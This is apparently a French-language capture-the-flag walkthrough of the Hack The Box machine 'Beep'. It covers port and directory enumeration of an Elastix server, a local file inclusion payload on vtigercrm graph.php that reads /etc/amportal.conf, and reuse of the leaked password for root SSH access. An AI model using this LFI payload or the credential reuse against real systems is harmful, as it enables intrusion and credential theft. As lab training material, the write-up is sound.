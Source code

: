 # FootHold

La première chose que je fais que je m'attaque à une box HTB c'est d'ajouter la résolution de nom <box>.htb à mon fichier /etc/hosts:

`echo "10.129.152.59	beep.htb"`

## Enumération des ports 

Scannons d'abords tout les ports:

`nmap 10.129.151.94 -p-` 

```
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
944/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Nous effectuons maintenant un scan plus complet sur les ports désignés (option -p):

`nmap 10.129.151.94 -p 22,25,80,110,111,143,443,944,993,995,3306,4190,4445,4559,5038,10000 -A `

```
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.151.94/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2021-05-25T14:38:08+00:00; 0s from scanner time.
944/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

## Site Web http:// deep.htb  et https:// deep.htb

Le site force l'usage d'HTTPS, il n'y a donc "rien à voir" sur le port 80 et nous sommes redirigés vers le port 443.

Il s'agit d'Elastix: 
![elastix](_ressource/Screenshot_20210526_095805.png)

### Enumération Web 

Pour se faire, j'utilise gobustrer, que je trouve très puissant (en terme de rapidité) et très complet (en termes d'options).

```
# Version "complete" installé via Github
gobuster dir -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k

# Version "short" installé via apt

gobuster -u https://deep.htb -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -k
```

_NB: Ne pas oublier l'option -k qui permet d'utiliser le mode "insecure" et donc d'ingorer les certificats SSL du site HTTPs._

```
/index.php (Status: 200)
/images (Status: 301)
/help (Status: 301)
/register.php (Status: 200)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/config.php (Status: 200)
/robots.txt (Status: 200)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
```

Après avoir fouillé un peu partout il ne semble pas y avoir de choses intéressantes à première vue.


### Recherche de faille:

Lorsqu'il s'agit de rechercher une faille, j'aime utiliser l'outil "searchsploit" disponible sur Kali.

`searchsploit elastix`

Parmis les failles proposés, celle qui me semble pour l'instant intéressante est la (LFI sur le graph.php)[https://www.exploit-db.com/exploits/37637].

> LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

On se rend donc sur la page: https://deep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

L'affichage n'est pas optimal, pour y voit plus clair: `CTRL + U` pour afficher le code source

![img](_ressource/ctrl.png)

On voit que le mot de passe suivant est utilisé un peu partout: **jEhdIekWmdjE**


# Root

## Accès SSH

Lorsque qu'on essaie de se connecter à l'utilisateur root via ssh (et le mot de passe: jEhdIekWmdjE ) un message d'erreur apparaît:

```
ssh root@beep.htb

Unable to negotiate with 10.129.152.59 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`
```

Pour régler ce problème:

`echo "KexAlgorithms +diffie-hellman-group1-sha1" >> ~/.ssh/config`

**NB**: On n'oubliera pas d'effacer ce fichier/cette ligne à la fin du CTF.

Il est maintenant possible de se connecter en root.
